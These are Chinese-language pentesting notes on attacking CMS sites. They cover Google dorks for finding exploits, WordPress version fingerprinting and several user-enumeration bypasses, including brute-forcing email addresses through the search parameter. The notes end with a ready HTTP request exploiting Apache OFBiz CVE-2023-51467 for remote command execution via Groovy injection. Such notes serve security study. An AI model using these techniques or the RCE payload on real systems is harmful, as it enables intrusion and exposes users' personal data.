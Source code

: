 # CMS通用攻击模式
## CMS确定版本
* 一般CMS都会有确定的版本，往往会在目录中，或者主页源码中包含，最多的是在源码中，往往版本号会以参数传给插件，多看看插件，可能会有收获。
* 但是，往往有些CMS安全性能高，会隐藏版本，没有登录权限，无法得知版本，这时可以查看界面或者CMS名字，得知大概的公布时间，使用google或者其他浏览器搜索公共漏洞exp



## [[被动信息收集#google hacking|google]]枚举CMS
* 得知具体版本：
  `allintext:"nagios xi 2.12" exploit`
* 未知具体版本：
  `allintext:CVE-2010..2023 "nagios xi`  其中2010..2023为年限为2010年到2023年所有nagios的CVE漏洞




# wordpress CMS
## wordpress基础
### （1）wordpress目录结构
`[文件夹] wp-admin`      管理员页面
`[文件夹] wp-includes`   
`[文件夹] wp-content`    包含主题，插件，上传文件，默认情况下，uploads是以年月的形式组织显示的
`.htaccess`
`robots.txt `           有时没有
`index.php`
`license.txt`
`readme.html`
`wp-config.php`         其中包含数据库连接数据（账号密码）
`wp-activate.php`
`wp-blog-header.php`
`wp-comments-post.php`
`wp-config-sample.php`
`wp-cron.php`
`wp-links-opml.php`
`wp-load.php`
`wp-login.php`
`wp-mail.php`
`wp-settings.php`
`wp-signup.php`
`wp-trackback.php`
`xmlrpc.php`
`[文件夹] wp-content`
包含：themes文件夹，plugins文件夹，uploads文件夹，index.php


## wordpress版本
### （1）HTML meta信息中含有wordpress版本
* `<meta name =“ generator” content =“ WordPress 3.5.2” />`
  README.html
  readme.html中含有wordpress版本，但是新版wordpress中将这种信息抹除了
### （2）网站HTML源中的版本
* 在HTML源代码中 ， 该版本通常作为参数添加到页面加载的链接javascript和css资源上 
  ```html
<link rel='stylesheet' id='wp-block-navigation-css' href='http://192.168.2.200:8000/wp-includes/blocks/navigation/style.min.css?ver=6.4' media='all' />
  ```
  显示wordpress版本为6.4



## wordpress用户枚举
### （1）使用[[Web API|API]]枚举用户
* rest_route API枚举
  `https://abc.com/blog/wp-json/wp/v2/users`   屏蔽
  `https://abc.com/blog/?rest_route=/wp/v2/users `  绕过
  获得wordpress用户列表，用户id为1的用户
* 使用wordpress公共API枚举用户
  例如jetpack插件会将用户列表数据导入到wordpress.com通过公共REST API提供
  `https://blog.*******.com/wp-json/wp/v2/users` 已屏蔽
  `https://public-api.wordpress.com/rest/v1.1/sites/blog.*******.com/posts `绕过
### （2）使用搜索枚举用户
* 在少数情况下，我们遇到了没有明确阻止的API，但/wp/v2/users端点没有返回avatar_urls属性。这是由第三方安全插件或手动禁用头像（设置>讨论>头像）造成的。
  设置，将在网页和REST响应中隐藏头像。
  我们也找到了一个解决这些问题的方法。该端点支持参数 "搜索"。它的值与所有用户的字段匹配，包括电子邮件地址。通过简单的自动化，有可能发现每个电子邮件地址。与匹配的电子邮件相关的用户信息将在JSON响应中返回。根据经验，我们可以估计，揭示一个电子邮件地址需要200到400个请求。
  `https://api.*****.com/wp-json/wp/v2/users`  已屏蔽
  `https://api.*****.com/wp-json/wp/v2/users?search=r@initech.com`
  `https://api.*****.com/wp-json/wp/v2/users?search=er@initech.com`
  `https://api.*****.com/wp-json/wp/v2/users?search=ter@initech.com`
  `https://api.*****.com/wp-json/wp/v2/users?search=eter@initech.com`
  `https://api.*****.com/wp-json/wp/v2/users?search=peter@initech.com`  绕过
  绕过
### （3）拼接绕过枚举用户
* 有时主句会拒绝列出所有用户信息，但是可以正对一个用户进行枚举
  `https://www.*****.org/wp-json/wp/v2/users`  已屏蔽
  `https://www.*****.org/wp-json/wp/v2/users/1`  绕过
* 大小写绕过枚举用户
  `https://blog.*****.com/section/news?rest_route=/wp/v2/users ` 已屏蔽
  `https://blog.*****.com/section/news?rest_route=/wp/v2/usErs`  绕过


  
## wordpress插件枚举


# Apache OFbiz CMS

## OFbiz基础
比较常见的CMS，使用J2EE/XML规范，在一些大型电商平台会使用，OFbiz提供了大量的开发工具以及完善的服务引擎，消息引擎，工作流引擎，规则引擎等。
### （1）OFbiz后台
* `/accounting/control/main`
* `/control/main`
  一般发现后台就会发现OFbiz的版本，一般在右下角
### （2）OFbiz密码策略
* OFBiz 默认采用 SHA 加密，并且给了随机长度的盐，在登录的时候，拿用户输入的密码加密后，和数据库的密文进行比对，密码有 2 中情况，一种是` {SHA}`开头的系统默认密码，一种是` $SHA$ `开头的用户修改密码
  `{SHA}`开头的密码，校验方法为，例如` {SHA}b21985b2b0ff043b88af6606ef46d19379e0d853`：
  （1）把用户输入的密码直接用 SHA 加密
  （2）把得到的 byte 字节数组转换成 16 进制
  （3）把得到的 16 进制支付串和数据库中的密文比对（不包含 {SHA}）
  `$SHA$`开头的密码，校验方法为，例如` $SHA$QTrjOV5Y0$JcuATekEKOYp6TSvM8jifQU3Q4Y`
  （1）这种密码，按 $ 符号分割，第一段是加密方式，第二段是 盐（salt），第三段是密文
  （2）按照第一种方法取到 salt，按照 用户输入的密码和 salt 用 SHA 加密获取到 byte 字节数组
  （3）然后将 byte 字节数组用 BASE64URL 安全的方式转换成字符串
  （4）把字符串和数据库密文对比


## OFbiz漏洞
### （1）CVE-2023-49070
* 这个漏洞利用了ofbiz中XMLRPC的反序列漏洞，可以远程执行代码，但是在18.12.10版本彻底修复了该漏洞
### （2）CVE-2023-51467
* 这个漏洞使用ofbiz中的工具webtools中的control输入用户名和密码，并且post输入groovyProgram，其中注入java语句，执行bash代码
```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
groovyProgram=throw+new+Exception('id'.execute().text);
```
